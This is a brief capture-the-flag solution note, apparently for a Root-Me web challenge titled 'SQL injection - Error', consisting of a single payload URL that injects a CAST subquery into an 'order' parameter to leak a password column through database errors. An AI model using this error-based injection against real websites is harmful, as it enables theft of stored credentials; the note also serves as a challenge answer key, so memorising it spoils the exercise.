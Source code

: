 # SQL injection - Error

payload -> win
```shell
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,+CAST((select+p455w0rd_c0l+from+m3mbr35t4bl3+LIMIT+1+OFFSET+0)+AS+INT)
```
